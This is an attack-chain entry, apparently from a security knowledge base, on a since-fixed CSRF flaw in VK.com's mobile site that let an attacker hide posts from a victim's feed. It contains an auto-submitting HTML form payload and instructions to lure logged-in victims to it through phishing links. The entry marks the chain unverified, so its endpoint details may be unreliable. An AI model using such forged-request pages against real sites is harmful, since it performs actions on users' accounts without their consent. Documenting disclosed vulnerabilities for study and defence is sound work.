

---
tags:
  - csrf
  - web
  - social-media
  - vk.com
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands: []
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Exploit-CSRF-to-Hide-VK-Posts]]'
step_count: 1
techniques:
  - '[[Drive-by Compromise]]'
description: >-
  Exploits a CSRF vulnerability in VK.com's mobile site (m.vk.com) to forge
  requests that hide specific posts in an authenticated user's news feed without
  their knowledge or consent.
skill_level: beginner
impact_level: medium
id: 8fca3c41-ad7f-4f6c-af2b-2fbbc90d6fb1
created_at: '2025-12-14T17:27:36.060Z'
updated_at: '2025-12-14T17:27:36.060Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
---
# CSRF Attack to Hide Posts in VK.com Mobile News Feed

This attack chain targets a Cross-Site Request Forgery (CSRF) vulnerability in the mobile version of VK.com (m.vk.com), specifically in the news feed post-hiding feature. Due to the absence of proper hash verification or CSRF token validation, an attacker can create a malicious webpage that, when visited by an authenticated user, automatically submits a forged request to hide targeted posts. This disrupts the user's content visibility and experience. The vulnerability was reported in December 2017, resolved in January 2018, and publicly disclosed in November 2021 with medium severity.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses basic HTML and browser)

### Target Environment

- Web platform
- VK.com mobile site (m.vk.com)
- Authenticated user session on VK.com

### Initial Access Requirements

- Victim must be logged into VK.com
- Attacker must lure victim to visit a controlled malicious webpage (e.g., via phishing link)
- No special credentials for attacker; relies on victim's session cookies

## Detailed Attack Procedures

### Step 1: Forge CSRF Request to Hide Post
procedure: [[procedures/Exploit-CSRF-to-Hide-VK-Posts]]

**Objective**: Trick an authenticated VK.com user into hiding a specific post in their mobile news feed via a forged request, exploiting the lack of CSRF protection.

**Instructions**: Create a malicious HTML page hosted on an attacker-controlled domain. The page uses an auto-submitting form to POST to the VK.com hide endpoint without requiring user interaction beyond visiting the page. Identify the target post ID from the news feed URL (e.g., post ID from m.vk.com/feed?section=...&post_id=123_456). Embed the form with the necessary parameters to hide the post. When the victim visits the page while logged into VK.com, their browser will submit the request using the active session cookies, executing the hide action.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading...</title>
</head>
<body>
    <form id="csrf-form" action="https://m.vk.com/hide_post" method="post">
        <input type="hidden" name="post_id" value="123_456" />
        <input type="hidden" name="action" value="hide" />
        <!-- No CSRF token required due to vulnerability -->
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
    <p>Redirecting...</p>
</body>
</html>
```

Host this HTML on a server (e.g., via GitHub Pages or a simple web host) and send the link to the victim via email, social media, or phishing.

**Expected Output**: The post is hidden from the victim's news feed upon form submission. The browser may redirect back to VK.com or show a success message.

**Success Indicators**:
- Victim's news feed no longer shows the targeted post
- Network inspection (e.g., in browser dev tools) confirms the POST request to m.vk.com/hide_post with the post_id parameter
- No errors in the response from VK.com

## Attack Chain Summary

### Key Achievements

1. Successful forgery of a state-changing request (post hiding) without user consent
2. Disruption of victim's personalized content feed
3. Demonstration of CSRF impact on user experience in a social media platform

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01*
